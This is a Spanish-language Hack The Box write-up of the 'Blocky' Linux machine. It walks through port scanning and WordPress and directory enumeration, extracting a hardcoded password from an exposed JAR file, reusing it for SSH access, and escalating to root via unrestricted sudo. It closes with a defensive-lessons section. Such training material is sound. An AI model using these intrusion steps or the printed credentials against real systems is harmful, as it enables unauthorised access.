










# Blocky

## 📌 Overview

* Plataforma: Hack The Box
* Dificultad: Easy
* Sistema: Linux
* Dirección IP: 10.129.56.33
* Entorno: WordPress / Java / SSH
* Vector principal: Credenciales hardcodeadas en archivo JAR expuesto

Este documento describe el proceso de compromiso de la máquina Blocky, un entorno Linux que expone varios servicios, entre ellos FTP, SSH, HTTP y un servidor asociado a Minecraft.

La máquina se basa principalmente en una mala práctica de seguridad: almacenar credenciales sensibles dentro de archivos Java accesibles desde el servidor web. Tras extraer dichas credenciales, se reutilizan para acceder por SSH y posteriormente se abusa de una configuración insegura de sudo para obtener privilegios de root.

A lo largo del análisis se sigue una metodología basada en reconocimiento, enumeración web, análisis de archivos expuestos, reutilización de credenciales y escalada de privilegios.

- - -

## 🎯 Objetivo

El objetivo de la máquina consiste en identificar los servicios expuestos, localizar información sensible publicada en el servidor web, extraer credenciales válidas, acceder al sistema mediante SSH y escalar privilegios hasta obtener acceso como `root`.

- - -

## 🌐 Reconocimiento

Como primer paso, verificamos la conectividad con la máquina objetivo.

```bash 
ping -c 1 10.129.56.33
```

La respuesta confirmó que el host estaba activo y accesible desde nuestra posición.

A continuación, realizamos un escaneo inicial con Nmap para identificar los puertos abiertos.

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn 10.129.56.33 -oG allPorts
```

El escaneo mostró varios puertos relevantes expuestos:

* Puerto 21: FTP
* Puerto 22: SSH
* Puerto 80: HTTP
* Puerto 25565: Minecraft

Posteriormente, lanzamos un escaneo más detallado sobre los puertos identificados.

```bash
nmap -p 21,22,80,25565 -sCV 10.129.56.33 -oN target
```

```bash
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp?
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Resultados Relevantes

El escaneo identificó un servidor FTP, un servicio SSH, un servidor web Apache y un servicio en el puerto `25565`, habitualmente asociado a Minecraft.

Los servicios más relevantes para la explotación inicial fueron:

* `80/tcp`: servidor web Apache.
* `22/tcp`: SSH disponible para acceso remoto.
* `25565/tcp`: servicio Minecraft, útil como pista contextual de la temática de la máquina.

El puerto FTP no permitía acceso anónimo, por lo que se dejó temporalmente en segundo plano.

- - -

## 🔎 Enumeración

### Enumeración Web

Al acceder al puerto 80 desde el navegador:

    http://10.129.56.33

el sitio redirige al dominio:

    http://blocky.htb

Para resolver correctamente el dominio, añadimos la entrada correspondiente al archivo `/etc/hosts`.

    sudo nano /etc/hosts

Añadimos:

    10.129.56.33 blocky.htb

Una vez configurado el dominio, accedemos de nuevo al sitio.

    http://blocky.htb

El servidor muestra una página web basada en WordPress, por lo que la enumeración se orienta inicialmente hacia usuarios, plugins y rutas interesantes.

- - -

### Enumeración Wordpress

Para enumerar WordPress podemos utilizar WPScan.

    wpscan --url http://blocky.htb -e u,p,t

Durante la enumeración se identifica contenido propio de WordPress, aunque no se encuentra una vulnerabilidad directa que proporcione ejecución remota.

Uno de los puntos importantes es la identificación de usuarios del sitio. En esta máquina, el usuario `notch` aparece como un posible usuario válido.



Este dato será útil más adelante si se consigue alguna contraseña reutilizable.

También podemos realizar fuzzing de directorios para encontrar rutas no enlazadas desde la página principal.

```bash
wfuzz -c -u http://blocky.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
```



Durante esta fase se descubre un directorio especialmente interesante:

    /plugins

### Análisis del Directorio `/plugins`

Al acceder al directorio descubierto:

    http://blocky.htb/plugins

se observan archivos Java en formato `.jar`.



Entre ellos destaca:

    BlockyCore.jar

Descargamos el archivo para analizarlo localmente.

    wget http://blocky.htb/plugins/BlockyCore.jar

Un archivo `.jar` es básicamente un paquete Java comprimido, por lo que puede inspeccionarse con herramientas como `unzip`, `jar`, `binwalk` o decompiladores Java.

Primero podemos listar su contenido.

    jar tf BlockyCore.jar



O extraerlo directamente.

    unzip BlockyCore.jar -d BlockyCore



Dentro del contenido extraído aparecen archivos `.class`, que corresponden a clases Java compiladas.

Para analizar su contenido podemos utilizar `javap` o un decompilador como `jd-gui`.

    javap -c BlockyCore.com.myfirstplugin.BlockyCore



También puede utilizarse `strings` para buscar cadenas legibles rápidamente.

    strings BlockyCore.jar



## 💥 Explotación

Durante el análisis del archivo JAR se encuentran credenciales hardcodeadas dentro del código.

El archivo contiene información de conexión a base de datos, incluyendo un usuario y una contraseña.

Una de las credenciales encontradas es:

    Usuario: root
    Contraseña: 8YsqfCTnvxAUeduzjNSXe22

Aunque inicialmente estas credenciales parecen pertenecer a una base de datos, la reutilización de contraseñas es una mala práctica común.

Como durante la enumeración web se había identificado el usuario `notch`, probamos la contraseña extraída contra SSH.

    ssh notch@10.129.56.33

Introducimos la contraseña encontrada:

    8YsqfCTnvxAUeduzjNSXe22

El acceso es exitoso y obtenemos una shell como el usuario `notch`.



## 🔐 Escalada de Privilegios

Una vez obtenido acceso por SSH, realizamos una enumeración local básica para identificar posibles vías de escalada de privilegios.

Comprobamos los permisos sudo del usuario actual.

    sudo -l



El sistema solicita la contraseña del usuario `notch`. Introducimos la misma contraseña utilizada para SSH.

El resultado indica que el usuario puede ejecutar comandos con sudo sin restricciones relevantes.

Esto significa que el usuario `notch` tiene capacidad para ejecutar comandos como `root`.

Dado que el usuario puede ejecutar comandos mediante sudo, la escalada de privilegios es directa.

Podemos obtener una shell como root ejecutando:

    sudo su

O también:

    sudo /bin/bash

Comprobamos el usuario actual.

    whoami

El resultado confirma que hemos escalado correctamente:

    root

Con esto se consigue el compromiso total de la máquina.



## 🧠 Lecciones Aprendidas

 - La enumeración web no debe limitarse únicamente al CMS principal; también es necesario revisar rutas ocultas y directorios expuestos.
* Los archivos `.jar` pueden contener información sensible si se publican accidentalmente en un servidor web.
* Las credenciales hardcodeadas en código fuente o binarios representan un riesgo crítico.
* Una contraseña pensada para un servicio interno puede permitir acceso a otros servicios si existe reutilización de credenciales.
* La identificación de usuarios durante la enumeración web puede ser clave para probar credenciales obtenidas en fases posteriores.
* La configuración de sudo debe seguir el principio de mínimo privilegio.
* Permitir a un usuario ejecutar cualquier comando como root convierte cualquier acceso a esa cuenta en compromiso total del sistema.

- - -

## 🛡️ Perspectiva defensiva

* No publicar archivos internos, plugins, binarios o paquetes `.jar` en rutas accesibles desde Internet.
* Evitar almacenar credenciales hardcodeadas dentro del código fuente o archivos compilados.
* Utilizar gestores de secretos o variables de entorno para manejar credenciales sensibles.
* Aplicar contraseñas únicas por servicio para evitar reutilización entre base de datos, SSH y otros componentes.
* Restringir el acceso SSH únicamente a usuarios necesarios.
* Revisar periódicamente los permisos sudo asignados a usuarios locales.
* Aplicar el principio de mínimo privilegio en la configuración de `/etc/sudoers`.
* Monitorizar descargas de archivos sensibles desde el servidor web.
* Revisar directorios expuestos por aplicaciones web y eliminar listados de directorio innecesarios.

- - - -

## 🧰 Herramientas utilizadas

- Nmap
* Wfuzz
* WPScan
* Wget
* Unzip
* Strings
* Javap
* SSH
* Sudo

- - -

## ✅ Conclusión

Blocky es una máquina sencilla, pero muy útil para reforzar la importancia de una enumeración web completa.

Aunque inicialmente WordPress puede parecer el objetivo principal, la clave de la máquina se encuentra en un directorio expuesto que contiene archivos Java. El análisis del archivo `BlockyCore.jar` permite extraer credenciales hardcodeadas, que posteriormente se reutilizan para acceder por SSH como el usuario `notch`.

La fase de escalada de privilegios es directa, ya que el usuario dispone de permisos sudo excesivos y puede ejecutar comandos como root.

Desde una perspectiva defensiva, Blocky demuestra el impacto de combinar varias malas prácticas: exposición de archivos internos, credenciales embebidas en código, reutilización de contraseñas y permisos sudo demasiado amplios.

La máquina refuerza una idea importante en pentesting: cuando una vía evidente no progresa, como puede ocurrir con WordPress, es necesario ampliar la enumeración y revisar todo el contenido expuesto por el servidor.